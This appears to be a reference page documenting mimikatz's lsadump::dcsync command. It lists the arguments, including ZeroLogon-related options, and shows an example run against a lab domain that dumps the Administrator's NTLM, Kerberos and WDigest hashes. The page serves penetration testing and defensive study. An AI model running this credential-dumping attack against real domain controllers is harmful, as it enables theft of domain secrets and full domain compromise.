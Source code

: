 # dcsync

`lsadump::dcsync` can be used to do a [DCSync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) and retrieve domain secrets (cf. [Pass-the-Ticket](https://www.thehacker.recipes/ad/movement/kerberos/ptt)). This command uses the Directory Replication Service Remote protocol ([MS-DRSR](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47?redirectedfrom=MSDN)) to request from a domain controller to synchronize a specified entry. It's the same protocol that domain controllers are using between them. It has the following command line arguments:

* `/all` : It will DCSync the entire active directory database
* `/user`: perform syncing only for the specified user
* `/export` : Save the output
* `/csv` : export to csv
* `/dc` or `/kdc`: Specify the Domain Controller to connect to and gather data
* `/guid` : The GUID of the object to sync credentials. It can be obtained with [`net::trust`](../net/trust.md).

The following command line arguments of `lsadump::dcsync` can be used for [ZeroLogon](https://www.thehacker.recipes/ad/movement/netlogon/zerologon) exploitation:

* `/authuser`: the domain controller's machine account
* `/authdomain`: the NetBIOS of the domain
* `/authpassword`: it has to be set to blank `""`
* `/authntlm`: user NTLM authentication

```
mimikatz # lsadump::dcsync /domain:hacklab.local /user:hacklab\Administrator
[DC] 'hacklab.local' will be the domain
[DC] 'DC.hacklab.local' will be the DC server
[DC] 'hacklab\Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   : 01/01/1601 01:00:00
Password last change : 24/09/2021 16:24:41
Object Security ID   : S-1-5-21-2725560159-1428537199-2260736313-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: b09a14d2d325026f8986d4a874fbcbc7
    ntlm- 0: b09a14d2d325026f8986d4a874fbcbc7
    ntlm- 1: a06b19f88e0432e937a67fb6848e56bd
    lm  - 0: b28dd7b27e8cf0d2293087d70fc35769

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : a367950918bb2ccabb50ab88e8ffb09f

* Primary:Kerberos-Newer-Keys *
    Default Salt : HACKLAB.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 0c1230dca827b75e872b5e5601eb6b76016412b4dd96b4aeb99a59a43490182c
      aes128_hmac       (4096) : e52cb5008be21bfe2e8429c74659d925
      des_cbc_md5       (4096) : 4f45e3a7cd34bc83

* Primary:Kerberos *
    Default Salt : HACKLAB.LOCALAdministrator
    Credentials
      des_cbc_md5       : 4f45e3a7cd34bc83

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  6ca5712f90260e1eb3abd67598e6750a
    02  8dffe5b3aefb6e5ae29e628d2ee96a45
    03  17be46dc199faf9b0bbda5bad36e3d6e
    04  6ca5712f90260e1eb3abd67598e6750a
    05  6fc635e3af189352029ce83a2219fa3c
    06  510782016677b838b585d4f04d23f98a
    07  b358628b75f049cf9e78f5e49bc560a2
    08  c40c4076a86fbf852da4cb4bfa721d74
    09  bf6734b4833bd61834c48fa6533acb9a
    10  3c148f6edbc99e9a489d72fb809ee66b
    11  0a100f8d2212e336adf8c429722d3a8c
    12  c40c4076a86fbf852da4cb4bfa721d74
    13  e649568c12076eba2026544142dc74fd
    14  3ef797336ba53aaf034774a4fe8b06dc
    15  797740715ee8fa059260c583fef36d5e
    16  84aa405aaf242960160143fa357a3c7f
    17  bb9ea6391483fa61fba5dced60ea039c
    18  3871d21dfa14ede3c56b04ffc5970b1c
    19  8e7946ea6e13210cb3ded49e2ff501fa
    20  7480b0f8878e31ee2dcf3507fc2dbf54
    21  2f7b7c9a2ac171f4417a38a52ef89989
    22  3483e4a4ca60cd4b3d0bc66dc900f175
    23  e1fa4a98cdab50c99934120090885d90
    24  e16cb6277ed064c290498037f5dfe5b3
    25  d6b096727b0d7a39cae06afd874247a9
    26  f7a5f95bb7f0d0be1d8fe247b875cb29
    27  e781f3584bf099e0a485657e832c6e74
    28  acb55c0b8828a6660b166fc649708c1c
    29  8fd36767c074ca738a81d5c7298295c3
```

{% hint style="warning" %}
When running `lsadump::dcsync` directly on the domain controller, it is not needed to specify the domain in the`/user`.

`mimikatz # lsadump::dcsync /user:Administrator /domain:hacklab.local`
{% endhint %}
